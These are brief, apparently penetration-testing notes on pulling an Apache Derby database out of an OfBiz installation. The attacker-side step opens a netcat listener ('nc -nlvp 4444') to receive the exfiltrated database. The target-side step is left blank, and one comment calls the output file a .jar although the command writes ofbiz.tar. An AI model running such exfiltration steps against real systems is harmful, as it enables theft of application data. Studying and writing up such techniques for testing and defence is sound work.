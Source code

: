 # Apache Derby Embedded Java Database

### Encountered in applications: 

#### 1) OfBiz (Location: /opt/ofbiz)

## Database extraction

### Steps

## Attacker

 - sudo apt install derby-tools (Install the tool needed to interact with the database)

 - nc -nlvp 4444 > ofbiz.tar (On attacking machine, run netcat to open a port, then send all data to the .jar file to download the database)

## Target Machine

 - 
